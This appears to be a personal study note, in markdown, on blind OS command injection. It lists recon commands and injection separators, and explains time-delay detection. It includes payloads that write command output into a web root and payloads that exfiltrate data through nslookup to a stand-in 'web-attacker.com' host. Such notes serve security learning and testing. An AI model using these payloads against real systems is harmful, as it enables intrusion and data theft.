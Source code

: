 ## Use full command
|Purpose |Linux|Windows|
|---|---|---|
|name of current user|'whoami'|'whoami'|
|OS| 'uname -a'|'ver'|
|Network configuration|'ifconfig'or'ipaddr|'ipconfig/all'|
|Network Connection|'nestat -an'|'netstat -an'|
|Running Process|'ps -ef'|'tasklist'|

## Blind Command injection vulnerability 
* many instance of os COmmand injection are blind vulnerabilities, means application does not return output from the command with http response.
* Consider a web site that lets users submit feedback about the site. The user enters their email address and feedback message. The server-side application then generates an email to a site administrator containing the feedback. To do this, it calls out to the `mail` program with the submitted details. For example: 
`mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com`

## Detecting Blind OS Command Injection using Time Delay.
* for generating time delay the `ping` command is use full because it send number of ICMP packet so to complete this command application takes time and delay generates in the application response time.
* put `|| && ` like terminal command ending or ';' to terminate the command or giving error, analyze more and try to exploit RCE.

## Exploiting Bling RCE BY Redirecting output
* You can redirect the output from the injected command into a file within the web root that you can then retrieve using your browser. For example, if the application serves static resources from the filesystem location `/var/www/static`, then you can submit the following input:
`& whoami > /var/www/static/whoami.txt &`

* You can then use your browser to fetch `https://vulnerable-website.com/whoami.txt` to see the output;
## Exploiting blind OS command injection using out-of-band ([OAST](https://portswigger.net/burp/application-security-testing/oast)) techniques)

### Blind-os command injection Out-of-band interaction
* You can use an injected command that will trigger an out-of-band network interaction with a system that you control, using OAST techniques.
* `& nslookup kgji2ohoyw.web-attacker.com &`
* use burp Collaborator for OAST.

### Blind-os-command injection Out-Of-band data exfiltration.
* ``& nslookup `whoami`.kgji2ohoyw.web-attacker.com &`` payload here in between \`\`we can add our command and execute lookup.
* response in collaborator  `wwwuser`.id.collaborator.net

## ways of injection OS commands
* \&
* \&\&
* |
* ||

only unix-based os 
* \;
* Newline(0x0a or \\n)

On Unix-based system we use
`` `command` or $(command)``